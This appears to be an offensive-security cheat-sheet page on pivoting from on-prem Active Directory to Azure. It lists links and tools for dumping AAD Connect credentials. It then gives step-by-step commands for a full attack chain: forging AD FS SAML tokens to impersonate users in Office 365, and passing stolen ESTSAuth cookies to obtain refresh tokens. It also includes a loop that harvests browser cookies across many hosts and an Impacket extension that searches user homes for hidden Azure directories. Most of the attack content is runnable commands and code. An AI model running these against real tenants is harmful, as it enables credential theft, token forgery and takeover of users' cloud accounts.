 # On-Prem → Cloud

- [https://aadinternals.com/post/on-prem_admin/](https://aadinternals.com/post/on-prem_admin/)
- [https://dirkjanm.io/azure-ad-privilege-escalation-application-admin/](https://dirkjanm.io/azure-ad-privilege-escalation-application-admin/)
- [https://nullg0re.com/2024/05/cracking-zero-trust-on-prem-to-azure-pivots-with-responder-and-evilginx2/](https://nullg0re.com/2024/05/cracking-zero-trust-on-prem-to-azure-pivots-with-responder-and-evilginx2/)




## Dumping AAD Connect Creds

- [https://dirkjanm.io/updating-adconnectdump-a-journey-into-dpapi/](https://dirkjanm.io/updating-adconnectdump-a-journey-into-dpapi/)
- [https://aadinternals.com/post/adsync/](https://aadinternals.com/post/adsync/)
- [https://imphash.medium.com/shooting-up-on-prem-to-cloud-detecting-aadconnect-creds-dump-422b21128729](https://imphash.medium.com/shooting-up-on-prem-to-cloud-detecting-aadconnect-creds-dump-422b21128729)
- [https://rioasmara.com/2020/07/07/azure-ad-connect-post-exploitation-for-dcsync/](https://rioasmara.com/2020/07/07/azure-ad-connect-post-exploitation-for-dcsync/)
- [[PDF] Hacking Azure AD via Active Directory (Dirk-jan Mollema, @_dirkjan)](https://dirkjanm.io/assets/raw/TR19-Im%20in%20your%20cloud.pdf)



### Tools

- [https://github.com/dirkjanm/adconnectdump](https://github.com/dirkjanm/adconnectdump)
- [https://github.com/Hagrid29/DumpAADSyncCreds](https://github.com/Hagrid29/DumpAADSyncCreds)




## Forging AD FS SAML Tokens

- [https://aadinternals.com/post/adfs/](https://aadinternals.com/post/adfs/)

Check if Azure is configured as a party trust:

```
ADFS > Get-ADFSRelyingPartyTrust | select Identifier | fl
```

Get AD FS config:

```
AADInt > $ADFSConfig = Export-AADIntADFSConfiguration -Hash <ADFS_SVC_NT_HASH> -SID <ADFS_SVC_SID> -Server ADFS01.megacorp.local
```

Get private key object GUID:

```
PV3 > Get-DomainObject -LDAPFilter "(&(objectclass=contact)(!name=CryptoPolicy)(ThumbnailPhoto=*))" -SearchBase "CN=ADFS,CN=Microsoft,CN=Program Data,DC=megacorp,DC=local" | select objectGuid
```

Ensure you have enough privileges to DCSync:

```
Cmd > Rubeus.exe asktgt /user:DC01$ /domain:megacorp.local /dc:DC01.megacorp.local /aes256:<AES_KEY> /opsec /nowrap /ptt
Cmd > Rubeus.exe asktgs /ticket:<TICKET> /domain:megacorp.local /dc:DC01.megacorp.local /service:LDAP/DC01.megacorp.local /nowrap /ptt
```

DCSync the key:

{% hint style="info" %}
We don't actually need clear-text creds to replicate the key if we've already imported a privileged TGT, so `$Credentials` ([here](https://github.com/Gerenios/AADInternals/blob/49a9659b60672f08428e72148b66dfe4629562da/DRS_Utils.ps1#L242)) can be omitted.
{% endhint %}

```
AADInt > $ADFSKey = Export-AADIntADFSEncryptionKey -Server DC01.megacorp.local -ObjectGuid <GUID> -Credentials "dummy"
PS > [System.BitConverter]::ToString($ADFSKey)
```

Generate the token signing certificate:

```
AADInt > Export-AADIntADFSCertificates -Configuration $ADFSConfig -Key $ADFSKey
PS > ls ADFS_*
```

Get AD FS trust issuer as well as on-prem users' immutable cloud IDs:

```
ADFS > $Issuer = (Get-ADFSProperties).Identifier.OriginalString
PV3 > Get-DomainUser | select UserPrincipalname, @{Name="ImmutableId"; Expression={"$([Convert]::ToBase64String(([guid]$_.ObjectGuid).ToByteArray()))"}}
```

Impersonate and login:

```
AADInt > Open-AADIntOffice365Portal -ImmutableId <BASE64_ID> -PfxFileName .\ADFS_signing.pfx -Issuer $Issuer
```




## Pass-the-Cookie

- [https://blog.netwrix.com/2022/11/29/bypassing-mfa-with-pass-the-cookie-attack/](https://blog.netwrix.com/2022/11/29/bypassing-mfa-with-pass-the-cookie-attack/)



### Refresh Token from `ESTSAuth*` Cookies

Automated with [TokenTacticsV2](https://github.com/f-bader/TokenTacticsV2?tab=readme-ov-file#get-a-refresh-token-from-estsauth-cookie):

```
PS > Get-AzureTokenFromESTSCookie -ESTSAuthCookie <COOKIE_VALUE>
```



### Mass Cookies Harvesting

Collect with [dploot](https://github.com/zblurx/dploot):

```
$ ls tickets/
SRV01.ccache   SRV02.ccache   PC01.ccache
$ for st in `ls tickets/`; do comp=`basename $st .ccache`; KRB5CCNAME="tickets/$st" proxychains4 dploot browser -d megacorp.local -no-pass -use-kcache "$comp.megacorp.local" -pvk ../key.pvk -show-cookies > "browsers_$comp.out"; done
```

Search for `ESTSAUTHPERSISTENT` cookies:

```
$ grep -nr --include '*.out' ESTSAUTHPERSISTENT -A3 | grep -e Creation -e Expires
```




## Mass Hidden Directories Searching

Impacket's **smbclient.py** extension (searches for hidden directories in every user's home):

```python
def do_hidden(self, args=None):
    hidden = []
    for item1 in self.smb.listPath(self.share, '\\Users\\*'):
        longname1 = item1.get_longname()
        if item1.is_directory() and longname1 not in ('.', '..'):
            dir0 = ntpath.join('\\Users', longname1)
            try:
                ls = self.smb.listPath(self.share, ntpath.join(dir0, '*'))
            except:
                continue
            else:
                for item2 in ls:
                    longname2 = item2.get_longname()
                    if item2.is_directory() and longname2 not in ('.', '..') and longname2.startswith('.'):
                        hidden.append((item2, ntpath.join(dir0, longname2)))
    result = ''
    for item, name in hidden:
        result += 'drw-rw-rw- '
        result += f'{datetime.fromtimestamp(item.get_mtime_epoch()).strftime("%Y/%m/%d %H:%M:%S"):>21} '
        result += '  '
        result += name
        result += '\n'
    print(result.strip())
```

Collect hidden directories:

```
$ ls tickets/
SRV01.ccache   SRV02.ccache   PC01.ccache
$ echo 'use c$\ninfo\nhidden' > cmd
$ for st in `ls tickets/`; do comp=`basename $st .ccache`; KRB5CCNAME="tickets/$st" proxychains4 smbclient.py -k -no-pass "$comp.megacorp.local" -inputfile cmd -outputfile "hidden_$comp.out"; done
```

Search for hidden directories that start with `.az`:

```
$ grep -nr --include '*.out' '\Users' | grep -i '\.az'
```
